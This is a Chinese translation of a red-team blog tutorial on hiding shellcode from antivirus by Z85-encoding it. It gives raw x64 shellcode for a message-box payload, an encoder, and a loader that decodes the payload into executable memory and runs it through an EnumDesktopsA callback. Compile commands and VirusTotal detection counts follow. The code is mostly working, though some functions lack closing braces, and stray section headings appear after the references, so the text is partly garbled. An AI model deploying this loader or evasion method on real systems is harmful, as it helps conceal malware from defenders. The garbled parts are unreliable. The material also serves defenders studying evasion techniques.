







\newpage
\subsection{恶意软件 AV 规避（第 8 部分）：通过 Z85 算法编码载荷（C++ 示例）}

这篇文章是我自我研究一个有趣技巧的结果：通过 Z85 编码载荷。

{width="80%"}

由于用 AES 和 XOR 算法加密载荷、以及编码（例如用 base64 算法）的方法已经和蓝队研究得相当透彻，于是就产生了这样一个问题：尝试用一种非标准的方式隐藏载荷。

Ascii85，也称为 Base85，是一种二进制到文本的编码形式，用于在只能承载英语人类可读文本的通道中传输任意二进制数据。

Z85 是一种把二进制数据表示为可打印文本的格式。

Z85 是现有 Ascii85 编码机制的一个衍生版本，为更好的易用性做了修改，特别适合在源代码中使用。

我们来看一个实战示例。

首先，用 Z85 编码我们的载荷（`encode.cpp`）：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <./z85.h>
#include <./z85.c>
#include <windows.h>

char* encode(const char* src, size_t len) {
  // allocate output buffer (+1 for null terminating char)
  char* dest = (char*)malloc(Z85_encode_with_padding_bound(len) + 1);

  if (len == 0) {
  dest[0] = '\0'; // write null terminating char
  return dest;
  }

  // encode the input buffer, padding it if necessary
  len = Z85_encode_with_padding(src, dest, len);

  if (len == 0) { // something went wrong
  free(dest);
  return NULL;
  }

  dest[len] = '\0'; // write null terminating char

  return dest;

unsigned char payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {
  char* str = encode((const char*)payload, sizeof(payload));
  if (str) {
  printf("%s\n", str);
  free(str);
  }
  return 0;

```

然后编译它：

```bash
x86_64-w64-mingw32-g++ -O2 encode.cpp -o encode.exe \
-I/usr/share/mingw-w64/include/ \
-I/home/cocomelonc/hacking/cybersec_blog/2022-07-29-malware-av-evasion-8 \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后运行：

```powershell
.\encode.exe
```

{width="80%"}

和往常一样，为了简单起见我使用 meow-meow 消息框作为载荷：

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

然后，下一步我们把这个编码后的载荷放进我们的「恶意软件」。

```cpp
/*
* hack.cpp
* Z85 encode payload
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2022/07/30/malware-av-evasion-8.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <./z85.h>
#include <./z85.c>
#include <windows.h>

int main(int argc, char* argv[]) {
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  char e_my_payload[] = "2@78z1[C&K*>*fqf06%EFp/pd>nhnL7nq*wNk1HPf7^pGGqxOd]I/"
  "ISTndSg4n>?4Znhm]YjyJQsefEl{:QHJp.q:&Wk#x*pI=7VYI:xJ%0"
  "NK2*Fqsg907.*VBz<XJ=}(]:neKJUI:eyR0NP>inDl^}l5NNQncdpo"
  "g08%vZ]P&r:QHJp.8Qv}[JGRGoE6)jiNJ02suYchkQn]4=$kEcIWScum2KqInDEg4l5L"
  "(4ncd76sv34}sZ19[l0lGSnq3mKk#N:vsv37[k1HOA>$g{P%6njp.2KDn06S@kL]"
  "oV606T8oG^u:107X&^laPHqrTnVPYwKXV3phn2Ma-:*!"
  "KUthc{dYY3v@3iBP]xE6ln2a09IQA*w/X$wP8=AzdNTfaPKVie?QD[00000";
  char d_my_payload[314] = {};
  size_t d = Z85_decode_with_padding(e_my_payload, d_my_payload, strlen(e_my_payload));
  LPVOID mem = VirtualAlloc(NULL, sizeof(d_my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, d_my_payload, sizeof(d_my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, 0);
  return 0;

```

非常感谢 @artemkin 提供的可用 C/C++ 实现，以及带填充的编码/解码。

### 演示

我们来看看一切的实际运行。编译我们的「恶意软件」：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-I/home/cocomelonc/hacking/cybersec_blog/2022-07-29-malware-av-evasion-8 \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

然后在我们的受害机器上运行：

```powershell
.\hack.exe
```

{width="80%"}

我们可以看到一切都完美工作了 :)

我们把 `hack.exe` 上传到 VirusTotal：

{width="80%"}

<https://www.virustotal.com/gui/file/6345f46e33919dd1e0691508a1f705d33ed44aadbdd1bb01a15fdad628b29fca/detection>

所以，70 个 AV 引擎中有 14 个把我们的文件检测为恶意。

如果你还记得，这项技术在没有编码时的结果是 66 个中的 16 个：

{width="80%"}

<https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection>

我们把检测到我们恶意软件的 AV 引擎数量从 16 个减少到了 14 个！

所以可以认为规避是有效的。

我希望这篇文章能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

[Z85](https://rfc.zeromq.org/spec/32/)  
[https://github.com/artemkin/z85](https://github.com/artemkin/z85)  
[EnumDesktopsA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumdesktopsa)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-07-29-malware-av-evasion-8)

### Z85

### 实战示例

我采用了之前一篇文章中运行载荷的技巧：
